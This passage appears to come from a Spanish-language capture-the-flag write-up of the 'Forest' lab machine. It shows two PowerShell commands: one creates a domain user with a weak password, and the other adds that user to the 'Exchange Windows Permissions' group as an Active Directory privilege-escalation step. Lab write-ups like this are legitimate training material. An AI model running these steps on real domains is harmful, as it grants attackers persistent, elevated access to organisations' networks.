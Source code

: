 ```powershell
net user axel123 Password123! /add /domain
```

Asignamos al usuario al grupo exchange.

![list](/assets/img/forest/Kali-2022-09-14-00-27-36.png){:.lead width="800" height="100" loading="lazy"}

Verificamos que ya este en grupo.

![list](/assets/img/forest/Kali-2022-09-14-00-27-59.png){:.lead width="800" height="100" loading="lazy"}

```powershell
net group "Exchange Windows Permissions" axel123 /add
```
